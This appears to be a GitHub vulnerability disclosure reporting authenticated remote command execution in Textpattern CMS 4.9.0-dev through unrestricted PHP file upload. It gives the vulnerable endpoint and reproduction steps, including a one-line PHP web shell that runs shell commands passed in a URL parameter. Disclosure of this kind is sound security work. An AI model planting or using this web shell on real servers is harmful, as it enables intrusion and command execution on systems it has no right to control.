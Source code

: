 # TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload
Textpattern version 4.9.0 is vulnerable to Remote Code Execution (RCE) due to the file upload functionality allowing unrestricted PHP file uploads, potentially leading to remote code execution.

<B>Vulnerable URL:</B><br> 
http://localhost/textpattern/textpattern/index.php?event=file&step=file_insert<br> 

<B>Reproduction:</B><br> 
Log in as the root user in Textpattern.<br> 
Create a PHP web shell by making a file named rce.php with the content <?php echo shell_exec($_GET['cmd']); ?>.<br> 
Navigate to 'Content > Files' and upload the rce.php web shell.<br> 
 Access the web shell directly by going to https://<url>/textpattern/files/rce.php?cmd=id.<br> 
You can now interact with the web shell and execute commands using this interface.<br> 

<B>Authors:</B><br> 
Patrick Dean Ramos<br> 
Nathu Nandwani<br> 
Junnair Manla<br> 
Kevin Rosales<br> 
Steve Nyan<br> 
Shanavas Shakeer<br> 
Lani Lambert<br> 

